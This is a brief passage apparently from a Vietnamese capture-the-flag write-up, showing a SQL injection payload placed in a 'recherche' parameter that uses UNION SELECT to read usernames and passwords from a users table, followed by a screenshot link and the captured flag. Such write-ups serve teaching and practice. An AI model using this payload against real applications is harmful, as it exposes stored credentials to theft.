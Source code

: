 - Xem bảng users:

```sql
recherche=1' union select username,password from users--
```
![1](img/40/Screenshot%20from%202023-01-27%2011-07-18.png)


```
Flag: c4K04dtIaJsuWdi
```